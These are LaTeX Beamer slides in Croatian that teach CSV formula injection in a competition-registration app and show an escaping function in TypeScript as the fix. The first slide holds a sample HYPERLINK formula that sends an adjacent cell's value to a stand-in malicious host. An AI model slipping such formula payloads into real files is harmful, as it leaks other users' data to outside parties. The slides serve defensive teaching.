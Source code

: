 \begin{frame}[fragile]{Formula u ćeliji (I)}
Ime natjecatelja upisuje klub, a datoteku otvara organizator. Klub kao ime može upisati:

\begin{lstlisting}
=HYPERLINK("https://zlonamjerna.example/?p="&A2; "Pogledaj")
\end{lstlisting}

\vspace{0.2em}
Organizatorov kalkulator tu vrijednost izvodi kao formulu i prikazuje poveznicu, a klik na nju šalje sadržaj susjedne ćelije na tuđu adresu. Napad se naziva ubacivanje formule (engl. \emph{CSV injection}).

\vspace{0.6em}
Vrijednost je ispravna po svakom pravilu sheme: neprazan tekst u dopuštenoj duljini. Opasna postaje tek u drugom programu, na računalu drugog korisnika.
\end{frame}

\begin{frame}[fragile]{Formula u ćeliji (II)}
\begin{lstlisting}[language=typescript]
// src/lib/csv.ts
function cell(value: string | number): string {
  let text = String(value)
  if (/^[=+\-@\t\r]/.test(text)) text = `'${text}`
  if (/[";\r\n]/.test(text)) text = `"${text.replaceAll('"', '""')}"`
  return text
}
\end{lstlisting}

\vspace{0.3em}
Vrijednost koja počinje znakom kojim kalkulator započinje formulu dobiva apostrof na početku i ostaje tekst.

\vspace{0.3em}
Zatim se vrijednost s navodnikom, razdjelnikom ili prijelomom retka stavlja u navodnike, a navodnik u njoj se udvostručuje.

\vspace{0.3em}
Zaštita stoji na mjestu na kojem podatak prelazi u drugi program: pri sastavljanju datoteke, a ne pri upisu imena.
\end{frame}


